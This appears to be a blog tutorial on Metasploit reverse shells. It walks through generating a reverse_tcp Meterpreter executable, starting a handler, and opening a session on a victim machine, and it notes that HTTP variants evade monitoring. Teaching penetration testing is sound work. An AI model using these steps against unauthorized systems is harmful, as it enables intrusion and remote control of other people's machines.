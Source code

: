 ```yaml
---
title: "How to Use a Reverse Shell in Metasploit"
description: "Learn more about the Metasploit framework."
icon: "code"
draft: false
---
```


Reverse shells are a crucial technique in penetration testing and ethical hacking, enabling attackers to gain access to a remote machine by reversing the connection back to the attacker's machine. This blog post provides a comprehensive guide on using reverse shells in Metasploit, detailing the process step-by-step and explaining when and why to use reverse shells.


## List of Metasploit Reverse Shells

To list all available reverse shells in Metasploit, use the following command:

```bash
./msfpayload -l | grep reverse
```

As a general rule, it's recommended to use Meterpreter payloads because they provide extensive post-exploitation capabilities such as `railgun`, post modules, and various Meterpreter commands.

## Windows Common Reverse Shell

For Windows, the most commonly used reverse shells include:
- `windows/meterpreter/reverse_tcp`
- `windows/meterpreter/reverse_http`
- `windows/meterpreter/reverse_https`

The HTTP and HTTPS variants can help in evading network monitoring due to their less suspicious traffic patterns.

## Linux Common Reverse Shell

For Linux, the preferred reverse shells are:
- `linux/x86/meterpreter/reverse_tcp`
- `linux/x64/meterpreter/reverse_tcp`

Additionally, the `linux/x86/shell_reverse_tcp` payload has proven to be highly stable.

## When to Use a Reverse Shell

Consider using a reverse shell in the following scenarios:
- The target machine is behind a different private network.
- The target machine's firewall blocks incoming connections.
- The payload cannot bind to the required port.
- You are unsure of the best option to use.

## When a Reverse Shell Isn't Needed

Reverse shells might not be necessary if:
- You can backdoor an existing service (e.g., adding a user to an SSH server).
- You can leave a web shell on a web server supporting server-side programming languages like PHP, ASP, or ASP.net.
- The target machine runs remote admin tools like VNC, Remote Desktop, or SMB.

## How to Set Up for a Reverse Shell During Payload Generation

When generating a reverse shell payload with `msfpayload` or `msfvenom`, you need to configure:

- **LHOST**: The IP address to which the target machine will connect. Ensure it's reachable by the target machine, often requiring public IP configuration and port forwarding.
- **LPORT**: The port on which the target machine will connect.

For the listener configuration:
- **LHOST**: The IP address for the listener to bind to.
- **LPORT**: The port for the listener to bind to.

Ensure the listener is started before executing the reverse shell.

## Demonstration

### Step 1: Generate the Executable Payload

On the attacker's machine (Box A), generate the payload:

```bash
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.123 LPORT=4444 X > /tmp/iambad.exe
```

### Step 2: Copy the Executable Payload to Box B

Transfer the payload executable to the victim's machine (Box B).

### Step 3: Set Up the Payload Handler on Box A

Configure and start the payload handler on Box A:

```bash
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.123
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > run
```

### Step 4: Execute the Malicious Executable on Box B

On Box B, execute the payload by double-clicking the `iambad.exe` file.

### Step 5: View the Meterpreter Session on Box A

Once the payload is executed, you should see the Meterpreter session open on Box A:

```bash
[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2024-06-25 19:03:43 -0500
meterpreter >
```

The `meterpreter >` prompt indicates an active session, allowing you to interact with the target system.

## Conclusion

Reverse shells are a powerful feature in Metasploit for gaining access to remote systems. By following this guide, you can effectively set up and use reverse shells for your penetration testing needs. Always ensure you have proper authorization before conducting any penetration tests.